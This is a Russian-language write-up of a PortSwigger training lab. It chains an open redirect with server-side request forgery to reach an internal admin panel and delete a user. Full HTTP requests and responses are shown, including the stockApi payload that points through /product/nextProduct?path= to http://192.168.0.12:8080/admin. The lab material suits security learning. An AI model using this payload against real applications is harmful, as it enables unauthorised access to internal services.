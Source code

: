 ```yaml
---
title: "SSRF with filter bypass via open redirection vulnerability"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-filter-bypass-via-open-redirection"
classes: wide
---
```

{% raw %}
Для решения лабы нужно удалить пользователя `carlos`, получив доступ к кабинету админа `http://192.168.0.12:8080/admin`.

```
https://0a810022044da5f780d2817c00320062.web-security-academy.net/
```

## Solution

Известно, что тут есть узявимость **SSRF**, а значит нужно найти запрос, который содержит в себе адрес удаленного сервиса. Немного погуляв по сайту, нашел следующий запрос:

```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Могу предположить, что через `stockApi` можно передать нужный адрес:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 48

"Invalid external stock check url 'Invalid URL'"
```

Ну не все так просто, как могло показаться(

На странице товара увидел кнопку `Next product`. Она отправляет следующий запрос:

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2
```

В параметре `path` указывается путь до нужно страницы. Попробую подставить путь до картинки:

```http
GET /product/nextProduct?currentProductId=1&path=/image/productcatalog/products/59.jpg HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=67v801jAftj4fL192RkkEgHPX4BfYN95; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 302 Found
Location: /image/productcatalog/products/59.jpg
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Меня перенаправило, а значит тут есть узявимость **Open redirection**. Попробую добавить `path=http://192.168.0.12:8080/admin` в запрос.


```http
POST /product/stock HTTP/2
Host: 0a810022044da5f780d2817c00320062.web-security-academy.net
Cookie: session=4AvVEzAX1KGOlGpO61s28eqVOmczi6k8; session=FGHul2TxRLaPWelwgX7Kfvo7N9k4FwPu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a810022044da5f780d2817c00320062.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0a810022044da5f780d2817c00320062.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3177

...

```

Получил ответ. А в нем и нужный запрос для удаления пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/1.png){: height="200" .align-center}

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3019

...

```

Пользователь удален, а значит лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_SSRF_with_filter_bypass_via_open_redirection_vulnerability/2.png){: height="200" .align-center}
{% endraw %}
